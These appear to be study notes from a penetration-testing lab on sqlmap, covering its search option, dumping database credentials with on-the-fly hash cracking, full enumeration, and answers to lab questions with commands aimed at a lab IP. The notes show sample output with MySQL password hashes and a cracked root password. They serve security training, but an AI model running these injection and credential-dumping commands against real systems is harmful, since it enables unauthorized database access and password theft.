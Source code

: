 ```shell-session
+--------+--------------+
```

# sqlmap search feature
we can search for databases, tables, and columns of interest, by using the `--search` option. This option enables us to search for identifier names by using the `LIKE` operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --search -T user 
# searches for tables with user in it

# --search -C pass 
searches for DBs,tables for columns with 'pass'
```


# hashcracking
sqlmap can also crack hashes on the fly

### dictionary attacks
involves comparing the hashes against a list of words, or a dictionary, to find a match.

### extract   passwords in system DBs and tables
(aka connection credentials)
attempt to dump the content of system tables containing database-specific credentials
```
sqlmap -u "http://www.example.com/?id=1" --passwords --batch


[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes 
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass
```


# full enumeration
```
# provide the entire enumeration details.
-all --batch
```


What's the name of the column containing "style" in it's name? 
```
$ sqlmap -u "http:<target>/case1.php?id=1*" --search -C style --batch --no-cast 
```


What's the Kimberly user's password? (Case #1)
```
$ sqlmap -u "http://94.237.50.221:40349/case1.php?id=1*" -T users -C name,password  --where="name like 'k%'"  --batch --dump
```